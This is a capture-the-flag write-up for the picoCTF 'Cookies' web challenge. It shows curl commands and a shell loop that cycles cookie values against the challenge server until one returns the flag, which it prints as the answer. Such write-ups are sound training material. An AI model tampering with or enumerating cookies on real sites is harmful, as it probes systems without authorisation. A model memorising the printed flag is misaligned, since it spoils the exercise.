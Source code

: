 # Cookies
Category: Web, 40 points

## Description
> Who doesn't love cookies? Try to figure out the best one. 

## Solution

We visit the website and see the following message:

```html
<div class="col-xs-12 col-sm-12 col-md-12">
    <h3>Welcome to my cookie search page. See how much I like different kinds of cookies!</h3>
</div>
```

Let's check the cookie we get from the server:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ curl -s http://mercury.picoctf.net:27177/ -I | grep Cookie
Set-Cookie: name=-1; Path=/
```

What if we try to access with a different cookie name?

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=0;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>

```

Let's search for that special cookie by trying different numbers:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Cookies]
└─$ for i in {1..20}; do
for>     contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for>     if ! echo "$contents" | grep -q "Not very special"; then
for then>         echo "Cookie #$i is special"
for then>         echo $contents | grep "pico"
for then>         break
for then>     fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```

The flag: `picoCTF{3v3ry1_l0v3s_c00k135_064663be}`
